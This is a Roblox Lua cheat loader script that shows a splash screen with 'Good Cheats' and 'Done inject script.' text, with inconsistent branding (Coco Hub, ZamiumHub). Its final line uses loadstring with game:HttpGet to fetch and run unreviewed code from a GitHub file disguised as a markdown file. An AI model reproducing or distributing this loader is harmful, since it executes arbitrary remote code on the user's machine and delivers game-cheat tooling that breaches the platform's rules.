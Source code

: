 --[[

          _             _             _             _             _              _      
        /\ \           /\ \         /\ \           /\ \         /\ \           /\ \     
       /  \ \         /  \ \       /  \ \         /  \ \       /  \ \         /  \ \    
      / /\ \ \       / /\ \ \     / /\ \ \       / /\ \ \     / /\ \ \       / /\ \ \   
     / / /\ \ \     / / /\ \ \   / / /\ \ \     / / /\ \ \   / / /\ \ \     / / /\ \ \  
    / / /  \ \_\   / / /  \ \_\ / / /  \ \_\   / / /  \ \_\ / / /  \ \_\   / / /  \ \_\ 
   / / /    \/_/  / / /   / / // / /    \/_/  / / /   / / // / /    \/_/  / / /    \/_/ 
  / / /          / / /   / / // / /          / / /   / / // / /          / / /          
 / / /________  / / /___/ / // / /________  / / /___/ / // / /________  / / /________   
/ / /_________\/ / /____\/ // / /_________\/ / /____\/ // / /_________\/ / /_________\  
\/____________/\/_________/ \/____________/\/_________/ \/____________/\/____________/  


A simple loader for Coco Hub, made by N4ri. yesss


]]--

local CCOpeningScreen = Instance.new("ScreenGui")
local MainFrame = Instance.new("Frame")
local CocoLogo = Instance.new("ImageLabel")
local T1 = Instance.new("TextLabel")
local T2 = Instance.new("TextLabel")
local T3 = Instance.new("TextLabel")
local LoadBar = Instance.new("Frame")

CCOpeningScreen.Name = "CCOpeningScreen"
CCOpeningScreen.Parent = game.CoreGui
CCOpeningScreen.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

MainFrame.Name = "MainFrame"
MainFrame.Parent = CCOpeningScreen
MainFrame.Active = true
MainFrame.AnchorPoint = Vector2.new(0.5, 0.5)
MainFrame.BackgroundColor3 = Color3.fromRGB(30, 30, 30)
MainFrame.BorderSizePixel = 0
MainFrame.ClipsDescendants = true
MainFrame.Position = UDim2.new(0.5, 0, 0.5, 0)
MainFrame.Selectable = true
MainFrame.Size = UDim2.new(0, 0, 0, 158)

CocoLogo.Name = "CocoLogo"
CocoLogo.Parent = MainFrame
CocoLogo.AnchorPoint = Vector2.new(0.5, 0.5)
CocoLogo.BackgroundColor3 = Color3.fromRGB(0, 255, 255)
CocoLogo.BackgroundTransparency = 1.000
CocoLogo.BorderSizePixel = 0
CocoLogo.ClipsDescendants = true
CocoLogo.Position = UDim2.new(0.255176783, 0, 0.49999997, 0)
CocoLogo.Size = UDim2.new(0, 86, 0, 86)
CocoLogo.Image = "https://cdn.discordapp.com/icons/683597436761276442/2a586b6df0affb3555daf39c3254eb48.png?size=4096"

T1.Name = "T1"
T1.Parent = MainFrame
T1.AnchorPoint = Vector2.new(0.5, 0.5)
T1.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
T1.BackgroundTransparency = 1.000
T1.BorderSizePixel = 0
T1.Position = UDim2.new(0.646776021, 0, 0.407925308, 0)
T1.Size = UDim2.new(0, 144, 0, 13)
T1.Font = Enum.Font.Gotham
T1.Text = "Welcome To"
T1.TextColor3 = Color3.fromRGB(255, 255, 255)
T1.TextScaled = true
T1.TextSize = 14.000
T1.TextWrapped = true
T1.TextXAlignment = Enum.TextXAlignment.Left

T2.Name = "T2"
T2.Parent = MainFrame
T2.AnchorPoint = Vector2.new(0.5, 0.5)
T2.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
T2.BackgroundTransparency = 1.000
T2.BorderSizePixel = 0
T2.Position = UDim2.new(0.646776021, 0, 0.538823366, 0)
T2.Size = UDim2.new(0, 144, 0, 28)
T2.Font = Enum.Font.GothamBold
T2.Text = "ZamiumHub"
T2.TextColor3 = Color3.fromRGB(255, 255, 255)
T2.TextScaled = true
T2.TextSize = 14.000
T2.TextWrapped = true
T2.TextXAlignment = Enum.TextXAlignment.Left

T3.Name = "T3"
T3.Parent = MainFrame
T3.AnchorPoint = Vector2.new(0.5, 0.5)
T3.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
T3.BackgroundTransparency = 1.000
T3.BorderSizePixel = 0
T3.Position = UDim2.new(0.5, 0, 0.885999978, 0)
T3.Size = UDim2.new(1, 0, 0, 10)
T3.Font = Enum.Font.Gotham
T3.Text = ""
T3.TextColor3 = Color3.fromRGB(255, 255, 255)
T3.TextScaled = true
T3.TextSize = 14.000
T3.TextWrapped = true

LoadBar.Name = "LoadBar"
LoadBar.Parent = MainFrame
LoadBar.Active = true
LoadBar.AnchorPoint = Vector2.new(0, 0.5)
LoadBar.BackgroundColor3 = Color3.fromRGB(60, 60, 60)
LoadBar.BorderSizePixel = 0
LoadBar.ClipsDescendants = true
LoadBar.Position = UDim2.new(0, 0, 0.977999985, 0)
LoadBar.Selectable = true
LoadBar.Size = UDim2.new(0, 0, 0, 7)

-- Scripts:

local function MNQEF_fake_script()
	local script = Instance.new('LocalScript', MainFrame)

	wait(1)
	script.Parent:TweenSize(UDim2.new(0,310,0,158), "Out", "Quad", 0.5, true)
	wait(1)
	script.Parent.LoadBar:TweenSize(UDim2.new(0.1,0,0,7), "Out", "Quad", 0.5, true)
	script.Parent.T3.Text = "By Ahmet efe-Zamium"
	wait(1)
	script.Parent.LoadBar:TweenSize(UDim2.new(0.50,0,0,7), "Out", "Quad", 0.5, true)
	script.Parent.T3.Text = "Good Cheats"
	wait(1)
	script.Parent.LoadBar:TweenSize(UDim2.new(1,0,0,7), "Out", "Quad", 0.5, true)
	script.Parent.T3.Text = "Done inject script."
	wait(1.5)
	script.Parent:TweenSize(UDim2.new(0,0,0,158), "Out", "Quad", 0.5, true)
	wait(0.5)
	loadstring(game:HttpGet(('https://raw.githubusercontent.com/xxortayaxx/adas/159/asda.md'),true))()
end
coroutine.wrap(MNQEF_fake_script)()
